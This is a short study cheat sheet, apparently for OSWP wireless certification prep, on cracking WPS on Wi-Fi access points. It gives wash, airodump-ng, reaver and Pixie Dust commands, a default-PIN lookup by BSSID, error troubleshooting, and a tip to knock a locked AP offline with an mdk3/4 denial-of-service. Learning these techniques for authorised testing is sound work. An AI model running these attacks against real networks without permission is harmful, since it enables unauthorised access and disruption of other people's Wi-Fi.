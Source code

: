 ```yaml
---
{"dg-publish":true,"permalink":"/OSWP/5. WPS Cracking/"}
---
```


----------------
### Scan for APs with WPS:
- Using Wash:
```
wash -i wlan0mon
```
- Add -5 for 5GHz
- _Lck_ indicates if WPS is locked, i.e. attack is pointless at that time
- Using Airodump:
```
sudo airodump-ng wlan0mon --wps
```

-----------
### Reaver default attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
```
- If Reaver won't switch channels and is stuck on "Waiting for beacon from..." add the -c parameter and specify the channel
- Test for empy pin: -p
--------------
### PixieWPS attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```

-------------------------
### BSSID-dependent PIN attack:
1. Load PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```
2. Check database for first six characters of BSSID:
```
echo ${PINDB["0013F7"]}
```
3. Verify outputted PINs

----
### Common errors:
Problem: Trying PixieWPS PIN with reaver:
```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
Solution: Restart reaver without PixieWPS option or try alternative wireless card.

Problem: Reaver may keep trying the same PIN in verbose mode:
```
[+] Sending identity response
[+] Received identity request
```
Solution: Try different wireless card with different chipset.

Problem: WPS is locked
Solution: Perform DoS using mdk3/4 or other to make AP reboot